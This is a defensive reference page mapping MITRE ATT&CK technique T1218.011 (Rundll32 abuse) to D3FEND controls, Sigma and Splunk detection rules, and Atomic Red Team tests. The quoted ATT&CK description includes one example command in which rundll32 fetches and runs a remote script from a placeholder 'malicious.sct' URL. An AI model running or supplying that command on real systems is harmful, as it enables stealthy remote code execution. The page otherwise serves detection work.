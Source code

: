 # T1218.011: Rundll32
**MITRE ATT&CK Tactic(s):** Defense Evasion

**[MITRE ATT&CK Description](https://attack.mitre.org/techniques/T1218/011)**
<blockquote>Adversaries may abuse rundll32.exe to proxy execution of malicious code. Using rundll32.exe, vice executing directly (i.e. [Shared Modules](https://attack.mitre.org/techniques/T1129)), may avoid triggering security tools that may not monitor execution of the rundll32.exe process because of allowlists or false positives from normal operations. Rundll32.exe is commonly associated with executing DLL payloads (ex: <code>rundll32.exe {DLLname, DLLfunction}</code>).

Rundll32.exe can also be used to execute [Control Panel](https://attack.mitre.org/techniques/T1218/002) Item files (.cpl) through the undocumented shell32.dll functions <code>Control_RunDLL</code> and <code>Control_RunDLLAsUser</code>. Double-clicking a .cpl file also causes rundll32.exe to execute. (Citation: Trend Micro CPL)

Rundll32 can also be used to execute scripts such as JavaScript. This can be done using a syntax similar to this: <code>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")"</code>  This behavior has been seen used by malware such as Poweliks. (Citation: This is Security Command Line Confusion)

Adversaries may also attempt to obscure malicious code from analysis by abusing the manner in which rundll32.exe loads DLL function names. As part of Windows compatibility support for various character sets, rundll32.exe will first check for wide/Unicode then ANSI character-supported functions before loading the specified function (e.g., given the command <code>rundll32.exe ExampleDLL.dll, ExampleFunction</code>, rundll32.exe would first attempt to execute <code>ExampleFunctionW</code>, or failing that <code>ExampleFunctionA</code>, before loading <code>ExampleFunction</code>). Adversaries may therefore obscure malicious code by creating multiple identical exported function names and appending <code>W</code> and/or <code>A</code> to harmless ones.(Citation: Attackify Rundll32.exe Obscurity)(Citation: Github NoRunDll)</blockquote>

## Policy / Process Controls
### [MITRE D3FEND](https://d3fend.mitre.org/)
**Last accessed:** April 27, 2022

**Total ATT&CK-mapped resources:** 2328

**ATT&CK-mapped resources for this (sub)technique:** 6

Resources mapped to this (sub)technique can be viewed on [this page](https://d3fend.mitre.org/) (see also the [ATT&CK to D3FEND Mapper](https://d3fend.mitre.org/tools/attack-mapper) tool):

* [File Analysis](https://d3fend.mitre.org/techniques/d3f:FileAnalysis)
* [Process Spawn Analysis](https://d3fend.mitre.org/techniques/d3f:ProcessSpawnAnalysis)
* [System Call Analysis](https://d3fend.mitre.org/techniques/d3f:SystemCallAnalysis)
* [Local File Permissions](https://d3fend.mitre.org/techniques/d3f:LocalFilePermissions)
* [System Call Filtering](https://d3fend.mitre.org/techniques/d3f:SystemCallFiltering)
* [Decoy File](https://d3fend.mitre.org/techniques/d3f:DecoyFile)

## Technical Controls (Detection Rules)
### [Cyber Analytics Repository](https://car.mitre.org)
**Last accessed:** May 19, 2022

**Total ATT&CK-mapped rules:** 159

**ATT&CK-mapped resources for this (sub)technique:** 1

Resources mapped to this (sub)technique can be located in the following files within the repository's <code>[analytics](https://github.com/mitre-attack/car/blob/master/analytics)</code> folder:

* [RunDLL32.exe monitoring](https://github.com/mitre-attack/car/tree/master/analytics/CAR-2014-03-006.yaml)

### [Sigma rules public repository](https://github.com/SigmaHQ/sigma)
**Last accessed:** May 19, 2022

**Total ATT&CK-mapped rules:** 2356

**ATT&CK-mapped resources for this (sub)technique:** 31

Resources mapped to this (sub)technique can be located in the following files within the repository's <code>[rules](https://github.com/SigmaHQ/sigma/tree/master/rules)</code> folder:

* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [create_remote_thread](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/create_remote_thread/) / **[PowerShell Rundll32 Remote Thread Creation](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/create_remote_thread/sysmon_susp_powershell_rundll32.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [file_event](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/file_event/) / **[Unidentified Attacker November 2018](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/file_event/file_event_win_apt_unidentified_nov_18.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [file_event](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/file_event/) / **[SCR File Write Event](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/file_event/file_event_win_new_src_file.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [network_connection](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/network_connection/) / **[Rundll32 Internet Connection](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/network_connection/net_connection_win_rundll32_net_connections.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Equation Group DLL_U Load](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_apt_equationgroup_dll_u_load.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[EvilNum Golden Chickens Deployment via OCX Files](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_apt_evilnum_jul20.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Sofacy Trojan Loader Activity](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_apt_sofacy.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Unidentified Attacker November 2018](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_apt_unidentified_nov_18.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[ZxShell Malware](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_apt_zxshell.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Bad Opsec Defaults Sacrificial Processes With Improper Arguments](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_bad_opsec_sacrificial_processes.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[F-Secure C3 Load by Rundll32](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_c3_load_by_rundll32.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[CobaltStrike Load by Rundll32](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_cobaltstrike_load_by_rundll32.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Fireball Archer Install](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_crime_fireball.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[HTML Help Shell Spawn](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_html_help_spawn.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[NotPetya Ransomware Activity](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_malware_notpetya.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Detection of PowerShell Execution via DLL](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_powershell_dll_execution.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[RedMimicry Winnti Playbook Execute](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_redmimicry_winnti_proc.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Rundll32 InstallScreenSaver Execution](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_rundll32_installscreensaver.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Process Dump via Comsvcs DLL](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_comsvcs_procdump.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Suspicious Control Panel DLL Load](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_control_dll_load.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Emotet RunDLL32 Process Creation](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_emotet_rundll32_execution.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Code Execution via Pcwutl.dll](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_pcwutl.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Suspicious Rundll32 Activity](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_rundll32_activity.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Suspicious Call by Ordinal](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_rundll32_by_ordinal.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Suspicious Rundll32 Script in CommandLine](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_rundll32_script_run.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Suspicious Rundll32 Setupapi.dll Activity](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_rundll32_setupapi_installhinfsection.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[RunDLL32 Spawning Explorer](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_rundll32_spawn_explorer.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Suspicious Rundll32 Activity Invoking Sys File](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_rundll32_sys.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Shell32 DLL Execution in Suspicious Directory](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_target_location_shell32.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Process Access via TrolleyExpress Exclusion](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_trolleyexpress_procdump.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [registry](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/registry/) / [registry_set](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/registry/registry_set/) / **[ScreenSaver Registry Key Set](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/registry/registry_set/registry_set_scr_file_executed_by_rundll32.yml)**

### [Splunk Security Content](https://github.com/splunk/security_content)
**Last accessed:** May 19, 2022

**Total ATT&CK-mapped rules:** 1478

**ATT&CK-mapped resources for this (sub)technique:** 15

Resources mapped to this (sub)technique can be located in the following files within the repository's <code>[detections](https://github.com/splunk/security_content/tree/develop/detections)</code> folder:

* [deprecated](https://github.com/splunk/security_content/tree/develop/detections/deprecated/) / **[Suspicious Rundll32 Rename](https://github.com/splunk/security_content/blob/develop/detections/deprecated/suspicious_rundll32_rename.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Detect Rundll32 Application Control Bypass - advpack](https://github.com/splunk/security_content/blob/develop/detections/endpoint/detect_rundll32_application_control_bypass___advpack.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Detect Rundll32 Application Control Bypass - setupapi](https://github.com/splunk/security_content/blob/develop/detections/endpoint/detect_rundll32_application_control_bypass___setupapi.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Detect Rundll32 Application Control Bypass - syssetup](https://github.com/splunk/security_content/blob/develop/detections/endpoint/detect_rundll32_application_control_bypass___syssetup.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Rundll32 Control RunDLL Hunt](https://github.com/splunk/security_content/blob/develop/detections/endpoint/rundll32_control_rundll_hunt.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Rundll32 Control RunDLL World Writable Directory](https://github.com/splunk/security_content/blob/develop/detections/endpoint/rundll32_control_rundll_world_writable_directory.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Rundll32 DNSQuery](https://github.com/splunk/security_content/blob/develop/detections/endpoint/rundll32_dnsquery.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Rundll32 Process Creating Exe Dll Files](https://github.com/splunk/security_content/blob/develop/detections/endpoint/rundll32_process_creating_exe_dll_files.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Rundll32 with no Command Line Arguments with Network](https://github.com/splunk/security_content/blob/develop/detections/endpoint/rundll32_with_no_command_line_arguments_with_network.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[RunDLL Loading DLL By Ordinal](https://github.com/splunk/security_content/blob/develop/detections/endpoint/rundll_loading_dll_by_ordinal.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Suspicious IcedID Rundll32 Cmdline](https://github.com/splunk/security_content/blob/develop/detections/endpoint/suspicious_icedid_rundll32_cmdline.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Suspicious Rundll32 dllregisterserver](https://github.com/splunk/security_content/blob/develop/detections/endpoint/suspicious_rundll32_dllregisterserver.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Suspicious Rundll32 PluginInit](https://github.com/splunk/security_content/blob/develop/detections/endpoint/suspicious_rundll32_plugininit.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Suspicious Rundll32 StartW](https://github.com/splunk/security_content/blob/develop/detections/endpoint/suspicious_rundll32_startw.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Suspicious Rundll32 no Command Line Arguments](https://github.com/splunk/security_content/blob/develop/detections/endpoint/suspicious_rundll32_with_no_command_line_arguments.yml)**


## Offensive Security Tests
### [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team)
**Last accessed:** May 16, 2022

**Total ATT&CK-mapped tests:** 1258

**ATT&CK-mapped resources for this (sub)technique:** 12

The following unit tests mapped to this (sub)technique can be located in the file [here](https://github.com/redcanaryco/atomic-red-team/tree/master/atomics/T1218.011/T1218.011.yaml):

* Rundll32 execute JavaScript Remote Payload With GetObject
* Rundll32 execute VBscript command
* Rundll32 advpack.dll Execution
* Rundll32 ieadvpack.dll Execution
* Rundll32 syssetup.dll Execution
* Rundll32 setupapi.dll Execution
* Execution of HTA and VBS Files using Rundll32 and URL.dll
* Launches an executable using Rundll32 and pcwutl.dll
* Execution of non-dll using rundll32.exe
* Rundll32 with Ordinal Value
* Rundll32 with Control_RunDLL
* Rundll32 with desk.cpl

### [Cyber Analytics Repository](https://car.mitre.org)
**Last accessed:** May 19, 2022

**Total ATT&CK-mapped tests:** 70

**ATT&CK-mapped resources for this (sub)technique:** 1

Resources mapped to this (sub)technique can be located in the following files within [this repository](https://github.com/mitre-attack/car/blob/master/analytics):

* [RunDLL32.exe monitoring](https://github.com/mitre-attack/car/tree/master/analytics/CAR-2014-03-006.yaml): 1 unit tests

